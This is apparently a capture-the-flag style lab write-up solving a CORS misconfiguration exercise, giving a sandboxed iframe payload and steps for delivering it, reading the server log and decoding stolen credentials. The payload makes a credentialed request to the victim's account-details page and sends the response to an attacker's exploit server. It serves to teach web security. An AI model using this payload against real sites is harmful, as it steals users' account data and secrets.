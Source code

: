 1. The following script should be delivered to the victim:   

  ```
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','LAB.net/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
          location='Exploit-Server.net/log?key='+encodeURIComponent(this.responseText);
      };
  </script>"></iframe>
  ```
  

2. Delivering the exploit:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235935612-59f247fd-1ce0-4d5d-86f9-80dfe203a22e.png)
3. Accessing the log:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235936163-171a6fb4-25a6-458e-bf17-67160d695f5b.png)


4. Decoding the credentials:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235935435-7b2b2330-ad1b-4753-b8c0-aa4b8e6c0a2b.png)

